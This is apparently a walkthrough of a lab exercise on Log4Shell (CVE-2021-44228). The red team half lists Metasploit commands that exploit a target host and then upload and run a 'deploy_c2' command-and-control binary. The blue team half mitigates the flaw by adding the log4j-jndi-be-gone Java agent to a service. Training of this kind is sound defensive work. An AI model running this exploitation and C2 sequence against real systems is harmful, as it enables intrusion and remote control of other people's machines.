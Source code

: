 Red team exercise

1. nmap -T4 -A 172.16.100.90 (i always nmap just to see what's running even though it's not really necessary for this challenge)
2. Opened terminal
3. cd ~/Desktop/Resources
4. msfconsole to start metasploit
5. search cve:CVE-2021-44228
6. use exploit/multi/http/log4shell_header_injection
7. set lhost 172.16.200.12
8. set srvhost 172.16.200.12
9. set rhost 172.16.100.90
10. exploit
11. upload deploy_c2 /tmp
12. cd /tmp/
13. execute -f chmod -a "+x deploy_c2" (since my status on the challenge is not updating i did try exact path for /tmp/deploy_c2 in my execute as well, still no dice)
14. execute -f ./deploy_c2

Successfully completed red team exercise

____________________________________________________________________________

Blue team exercise

1. transfer log4j-jndi-be-gone-standalone.jar to blue team machine using scp
    1. sudo scp log4j-jndi-be-gone-standalone.jar playerone@172.16.100.100:~
2. ssh playerone@172.16.100.100
3. sudo cp log4j-jndi-be-gone-standalone.jar /opt
4. Add required changes to dasmsp.service (change in bold)
    1. ExecStart=/usr/lib/jvm/nvidia-java-8-openjdk-amd64/bin/java **-javaagent:/opt/log4j-jndi-begone-standalone.jar** -jar /opt/dasmsp.jar
5. sudo systemctl daemon-reload
6. sudo systemctl restart dasmsp.service

Success!